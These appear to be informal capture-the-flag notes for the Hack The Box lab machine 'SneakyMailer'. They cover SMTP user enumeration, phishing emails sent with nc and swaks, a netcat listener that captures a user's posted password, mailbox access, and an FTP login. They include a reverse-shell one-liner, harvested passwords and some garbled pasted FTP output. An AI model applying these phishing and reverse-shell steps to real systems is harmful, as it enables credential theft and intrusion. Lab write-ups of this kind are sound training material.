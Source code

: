 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap


we finally created a custom shel script as in mailer.sh

run that with the cla as cewlmails.txt and  listen on port 80 with nc using ```nc -vlp 80```


once the script finishes u will get the following on the listener ``` firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt```

which can be edited as:
```
 firstName=Paul
&lastName=Byrd&
email=paulbyrd%40sneakymailer.htb
& password = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
& rpassword = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
which on url decoding gives "
```
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```


using this password i tried creating a mail client as sneapy.py but it didint work and i was told authentication was failed
i checked a few forums andit mentioned evolution hence i am trying that
 and it worked


found this in the sent items
"
llo administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it"

looks like this is the password will try on ftb and ssh

it doesnt work on ssh but i can sign in to ftp
 via:
``` ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Oct 02 11:01 dev
226 Directory send OK.
ftp> tp 10.10.10.197
?Invalid command
ftp> Connected to 10.10.10.197.
?Invalid command
ftp> 220 (vsFTPd 3.0.3)
?Invalid command
ftp> Name (10.10.10.197:kali): developer
?Invalid command
```
